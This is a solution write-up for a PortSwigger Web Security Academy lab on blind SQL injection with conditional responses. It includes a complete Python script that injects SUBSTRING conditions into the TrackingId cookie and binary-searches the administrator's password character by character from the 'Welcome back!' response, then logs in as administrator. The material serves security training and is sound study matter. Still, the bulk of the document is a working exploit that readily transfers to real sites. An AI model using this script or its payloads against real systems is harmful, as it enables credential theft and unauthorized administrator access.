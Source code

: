```yaml
---
title: Blind SQL injection with conditional responses
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses/">
9. Blind SQL injection with conditional responses</a>

The target contains a SQL injection vulnerability in its cookies. It provides a
TrackingId cookie to keep track of visitors for analytics purposes. If a valid,
recent cookie is provided to the site, the site says "Welcome back!". We aren't
able to use UNION attacks to retrieve data from the database, but we can use
this response to find the administrator password.

Using the SUBSTRING function, we use binary search to find each character of the
administrator password. This lab only uses lowercase letters and numbers in the
password, so our range of characters to search through is:

0123456789abcdefghijklmnopqrstuvwxyz

We binary search each character of the password, one by one, until we have the
full password. Then we login as the administrator.

Solution:

```python
# usage:
# python3 9.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import http.client
import re
import string
from argparse import ArgumentParser
from typing import Optional

import requests

ALPHANUM = list(string.digits + string.ascii_lowercase)
http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def search(self, i: int) -> Optional[str]:
        s = requests.Session()
        req = s.get(f"{self.url}/")
        cookies = s.cookies.get_dict()
        tracking_id = cookies["TrackingId"]

        l, r = 0, len(ALPHANUM) - 1
        while l <= r:
            m = (l + r) // 2

            cookies["TrackingId"] = (
                f"{tracking_id}' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), {i}, 1) = '{ALPHANUM[m]}"
            )
            s = requests.Session()
            req = s.get(f"{self.url}/", cookies=cookies)
            if "Welcome back!" in req.text:
                return ALPHANUM[m]

            cookies["TrackingId"] = (
                f"{tracking_id}' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), {i}, 1) < '{ALPHANUM[m]}"
            )
            s = requests.Session()
            req = s.get(f"{self.url}/", cookies=cookies)
            if "Welcome back!" in req.text:
                r = m - 1
            else:
                l = m + 1

        return

    def solve(self) -> None:
        password = []
        i = 1
        while True:
            ch = self.search(i)
            if not ch:
                break
            else:
                password.append(ch)
            i += 1

        password = "".join(password)
        print(f"Password found! -- {password}")
        self.login("administrator", password)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```

